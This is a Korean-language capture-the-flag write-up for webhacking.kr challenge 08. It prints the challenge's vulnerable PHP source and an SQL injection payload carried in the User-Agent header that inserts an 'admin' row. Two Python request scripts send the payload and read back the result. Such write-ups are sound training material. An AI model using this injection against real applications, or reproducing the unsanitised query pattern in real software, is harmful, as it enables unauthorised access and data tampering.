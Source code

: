 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="insert into lv0(agent,ip,id) values('joizel','2.2.2.2','admin');#','$ip','guest')",arrowhead="normal"];
    }

|


소스 분석
================================================================================================================

- GET 파라미터: HTTP_USER_AGENT
- String
- insert

.. code-block:: php

    <html>
    <body>
    <?
    $agent=getenv("HTTP_USER_AGENT");
    $ip=$_SERVER[REMOTE_ADDR];
    $agent=trim($agent);
    $agent=str_replace(".","_",$agent);
    $agent=str_replace("/","_",$agent);
    $pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";
    $agent=strtolower($agent);
    if(preg_match($pat,$agent)) 
        exit("Access Denied!");
    $_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
    $_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);
    $count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
    if($count_ck[0]>=70) { 
        @mysql_query("delete from lv0"); 
    }
    $q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");
    $ck=@mysql_fetch_array($q);
    if($ck){ 
        echo("hi <b>$ck[0]</b><p>");
        if($ck[0]=="admin"){
            @solve();
            @mysql_query("delete from lv0");
        }
    }
    if(!$ck){
        $q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
        echo("<br><br>done!  ($count_ck[0]/70)");
    }
    ?>
    </body>
    </html>


User-Agent 변조
================================================================================================================

입력 부분이 getenv("HTTP_USER_AGENT")이고, User-Agent를 변조해서 admin이라는 계정을 삽입할 수 있다.

.. code-block:: sql

    insert into lv0(agent,ip,id) values('$agent','$ip','guest')

해당 소스 코드를 통해 agent값을 변조하여 쿼리를 날린다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

등록한 agent를 이용해 쿼리를 날리면 패스워드를 확인할 수 있다.

.. code-block:: sql

    select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

